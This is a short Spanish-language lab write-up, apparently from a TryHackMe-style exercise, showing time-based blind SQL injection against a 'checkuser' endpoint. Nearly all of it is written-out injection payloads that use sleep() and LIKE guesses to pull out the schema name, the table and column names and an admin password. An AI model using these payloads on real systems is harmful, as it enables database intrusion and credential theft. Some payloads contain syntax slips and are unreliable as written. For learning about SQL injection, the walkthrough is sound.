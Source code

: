 # Blind SQLi - Time Based
## Proceso
1. obtener base de datos (schema)
2. obtener nombres de tablas
3. obtener columnas
4. explotar

## URI explotable

https://website.thm/checkuser?username=admin

## obtener base de datos (schema)

```
admin' UNION SELECT sleep(2);-- se ejecuta automaticamente
admin' UNION SELECT sleep(2),2;-- se demora 2 segundos
admin' UNION SELECT sleep(2),2 WHERE database LIKE '%'; --
admin' UNION SELECT sleep(2),2 WHERE database LIKE 'a%'; --
admin' UNION SELECT sleep(2),2 WHERE database LIKE 'b%'; --
admin' UNION SELECT sleep(2),2 WHERE database LIKE 'c%'; --

y seguir 

admin' UNION SELECT sleep(2),2 WHERE database LIKE 'ca%'; --
admin' UNION SELECT sleep(2),2 WHERE database LIKE 'cb%'; --
admin' UNION SELECT sleep(2),2 WHERE database LIKE 'cc%'; --
admin' UNION SELECT sleep(2),2 WHERE database LIKE 'cc%'; --
```
Eventualmente encontraremos las tablas, para este caso: **sqli_4**

## obtener tablas

nos aprovecharemos de la info de metadata que almacena el motor.

admin' UNION SELECT sleep(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_4' AND table_name LIKE 'ca%'; --

Mismo ejercicio para obtener base de datos

Obtendremos de este ejercicio la tabla: **users**

## obtener campos

admin' UNION SELECT sleep(2),2 FROM information_schema.COLUMN WHERE TABLE_SCHEMA = 'sqli_4' AND TABLE_NAME = 'users' and COLUMN_NAME LIKE 'ca%'; --

obtendremos los campos: **username** y **password**

## explotar

Para explotar debemos averiguar usuarios y contraseñas.

### averiguar usuario

admin' UNION SELECT sleep(2),2 FROM users WHERE username LIKE 'a%'; -- se obtendra de este ejercicio **admin**

## obtener password

admin' UNION SELECT sleep(2),2 FROM users WHERE username = 'admin' AND password LIKE '1%'; -- se obtendra de este ejercicio **23433**

---
Happy exploiting - Zpx